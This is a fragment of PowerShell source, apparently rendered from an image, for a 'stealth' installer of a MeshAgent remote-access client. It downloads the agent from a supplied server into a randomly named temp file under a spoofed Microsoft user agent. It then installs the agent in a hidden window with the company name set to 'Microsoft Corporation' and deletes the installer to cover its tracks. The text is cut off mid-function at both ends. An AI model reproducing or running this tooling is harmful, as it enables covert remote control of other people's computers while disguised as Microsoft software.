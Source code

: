 ```powershell
    param([string]$ServerUrl, [string]$InstallHash)

    Write-StealthLog "Starting silent MeshAgent installation..."

    # Download installer to temporary location with random name
    $tempInstaller = "$env:TEMP\~setup_$(Get-Random).exe"

    try {
        # Construct download URL
        if ($InstallHash) {
            $downloadUrl = "$ServerUrl/meshagents?script=1&meshinstall=$InstallHash&installflags=0"
        } else {
            $downloadUrl = "$ServerUrl/meshagents?script=1&installflags=0"
        }

        Write-StealthLog "Downloading from: $downloadUrl"

        # Download with stealth headers
        $webClient = New-Object System.Net.WebClient
        $webClient.Headers.Add('User-Agent', 'Microsoft-WNS/10.0')
        $webClient.DownloadFile($downloadUrl, $tempInstaller)

        Write-StealthLog "Installer downloaded to: $tempInstaller"

        # Install silently with no UI
        $installArgs = @(
            '-fullinstall',
            '--companyName="Microsoft Corporation"'
        )

        $process = Start-Process -FilePath $tempInstaller -ArgumentList $installArgs -Wait -PassThru -WindowStyle Hidden

        if ($process.ExitCode -eq 0) {
            Write-StealthLog "MeshAgent installed successfully" -Level 'SUCCESS'
            return $true
        } else {
            Write-StealthLog "MeshAgent installation failed with exit code: $($process.ExitCode)" -Level 'ERROR'
            return $false
        }

    } catch {
        Write-StealthLog "Installation error: $_" -Level 'ERROR'
        return $false
    } finally {
        # Clean up installer
        if (Test-Path $tempInstaller) {
            Remove-Item -Path $tempInstaller -Force -ErrorAction SilentlyContinue
        }
    }
}

function Stop-MeshAgentService {
    Write-StealthLog "Stopping Mesh Agent service..."

    try {
        Stop-Service -Name 'Mesh Agent' -Force -ErrorAction Stop
        Start-Sleep -Seconds 2

        # Force kill process if still running
        $meshProcess = Get-Process -Name 'meshagent' -ErrorAction SilentlyContinue
        if ($meshProcess) {
```